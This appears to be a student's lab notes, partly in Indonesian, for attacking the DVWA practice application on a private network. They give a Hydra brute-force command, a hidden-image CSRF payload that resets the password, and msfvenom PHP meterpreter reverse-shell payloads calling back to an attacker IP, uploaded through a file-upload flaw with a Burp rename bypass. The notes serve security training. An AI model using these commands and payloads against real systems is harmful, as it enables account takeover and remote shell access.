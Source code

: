 # Web Hacking
## Target
- IP 192.168.43.61
- Website target : http://192.168.43.61/DVWA
## 1. Brute Force using Hydra
- Download link : https://github.com/vanhauser-thc/thc-hydra
- Intercept http://192.168.43.61/DVWA/vulnerabilities/brute/
- ```run hydra 192.168.43.61 -l admin -P ~/HackingTools/passlist.txt http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low;PHPSESSID=agtsveq2le4sv22ht3kcsmhv0q" ```

## 2. Exploit CSRF Vulnerability
- Buat file html, copy 
    ``` <img style="display:none" src="http://192.168.43.61/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change" alt=""> ```
## 3. Directory Traversal
- buka http://192.168.43.61/DVWA/vulnerabilities/fi/?page=file1.php
- coba akses file pada server dengan memanfaatkan celah akses directory 
## 4. File Injection
> Tools : Metasploit, Burpsuite
- ### LOW Security
    - ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.241 LPORT=3333 -o upload.php```
    - Upload file 'upload.php' ke http://192.168.43.61/DVWA/vulnerabilities/upload/
    - ```run msfconsole```
    - ```use multi/handler```
    - ```set lhost [IP lhost samakan dengan payload]```
    - ```set lport [lport samakan dengan payload]```
    - ```run```
- ### Medium Security
    - ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.241 LPORT=4444 -o koala.php```
    - Ganti nama koala.php menjadi koala.php.jpeg
    - Buka Burpsuite > proxy > intercept > intercept on
    - Upload file 'koala.php.jpeg' ke http://192.168.43.61/DVWA/vulnerabilities/upload/
    - pada payload burpsuite rubah nama file koala.php.jpeg menjadi koala.php
    - ```run msfconsole```
    - ```use multi/handler```
    - ```set lhost [IP lhost samakan dengan payload]```
    - ```set lport [lport samakan dengan payload]```
    - ```run```